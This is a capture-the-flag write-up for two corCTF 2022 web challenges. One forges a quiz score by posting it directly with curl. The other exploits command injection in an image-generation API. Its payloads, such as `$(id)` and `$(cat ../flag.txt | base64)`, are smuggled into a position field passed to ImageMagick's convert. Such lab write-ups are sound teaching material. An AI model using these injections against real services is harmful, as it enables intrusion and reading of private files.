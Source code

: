 # Cor CTF 2022 - Web 
------------------------

## Json Quiz
#### about :
- Type: web 
- Level: easy
- Points : 104

<center><img src="../images/jsonquiz.png"></center>

Going to https://jsonquiz.be.ax/ , inspecting the javascript source code i found this form : 
```javascript
    // TODO: implement scoring somehow
    // kinda lazy, ill figure this out some other time

    setTimeout(() => {
        let score = 0;
        fetch("/submit", {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded"
            },
            body: "score=" + score
        })
        .then(r => r.json())
        .then(j => {
            if (j.pass) {
                $("#reward").innerText = j.flag;
                $("#pass").style.display = "block";
            }
            else {
                $("#fail").style.display = "block";
            }
        });
    }, 1250);
```
What it does is check send the final score to backend to check if the score enough to  get a reward (flag) , the questions numbered 20 ,sending the perfect mark gives the 

flag : 
    curl https://jsonquiz.be.ax/submit -d "score=20"

result : 
    {"pass":true,"flag":"corctf{th3_linkedin_JSON_quiz_is_too_h4rd!!!}"}


## Msfrog Generator: 
#### about :
- Type: web 
- Level: easy
- Points : 109

<center><img src="../images/msfrog_generator.png"></center>

if we visit the website it look like this : 

<center><img src="../images/msfrog.png"></center>

the generate button send a POST request to /api/generate with the body: 

> [{"type":"mseyes.png;","pos":{"x":0,"y":0}}]

trying to change the type i got this error : 
> I wont pass a non existing image to a shell command lol

trying to mess with x position `x=ls` : 

> Something went wrong :
> b"convert-im6.q16: invalid argument for option `-geometry': +ls+0 @ error/convert.c/ConvertImageCommand/1672.\n"

it seems to be the beckend takes the type and x , y as key  arguments to be supplimented to a binary called convert-im6, let try some command injection with `x:"$(id)"` : 

> b"convert-im6.q16: invalid argument for option `-geometry': +uid=33(www-data) @ error/convert.c/ConvertImageCommand/1672.\n"

it works !! , i found the flag in `../flag.txt` with the payload `x:"$(cat ../flag.txt | base64)"` : 

flag : corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}